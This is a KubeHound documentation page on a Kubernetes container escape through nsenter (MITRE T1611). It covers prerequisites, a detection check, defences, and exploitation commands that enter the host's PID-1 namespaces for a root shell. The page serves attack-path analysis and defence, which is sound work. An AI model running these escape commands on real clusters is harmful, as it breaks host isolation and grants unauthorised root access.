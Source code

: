 ```yaml
---
title: CE_NSENTER
---
```


<!--
id: CE_NSENTER
name: "Container escape: nsenter"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_NSENTER

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Container escape via the nsenter built-in linux program that allows executing a binary into another namespace.

## Details

When both `hostPID: true` and `privileged: true` are set, the pod can see all of the processes on the host, and you can enter the init system (PID 1) on the host, and execute your shell on the node 

## Prerequisites

Execution within a container process created with `--privileged` AND the `--pid=host` enabled.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setuptest-cluster/attacks/CE_NSENTER.yaml).

## Checks

There is no straightforward way to detect if `hostPID` is activated from a container. The only way is to detect host program running from a pod. The most common way is to look for the `kubelet` binary running:

```bash
ps -ef | grep kubelet
```

## Exploitation

`nsenter` is a tool that allows us to enter the namespaces of one or more other processes and then executes a specified program. When you exec a binary into a container using the docker exec command:

```bash
docker exec -it --user root <container name> sh
```

You could do the same with nsenter:
+ Target a specific container
+ Look for PID of the targetted container
+ Execute `nsenter` of this specific PID and ask for all namespaces

```bash
docker ps | grep <container name>
CONTAINER_PID=$(docker inspect <container name> --format='{{ .State.Pid }}')
sudo nsenter -t $CONTAINER_PID -m -u -n -i -p sh
```

So to escape from a container and access the pod you just run, you need to target running on the host as root (PID of 1 is running the init for the host) ask for all the namespaces:

```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

The options `-m -u -n -i -p` are referring to the various namespaces that you want to access (e.g mount, UTS, IPC, net, pid).

## Defences

### Monitoring

+ Monitor for the use of the nsenter binary.
+ Monitor the `setns` syscall

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with `privileged` or `hostPid` enabled.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [EscapeNsenter](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_nsenter.go)

## References:

+ [nsenter(1) - Linux manual page](https://man7.org/linux/man-pages/man1/nsenter.1.html)
+ [Docker Breakout / Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privileged-+-hostpid)
+ [Debugging containers using nsenter](https://jaanhio.me/blog/nsenter-debug/)

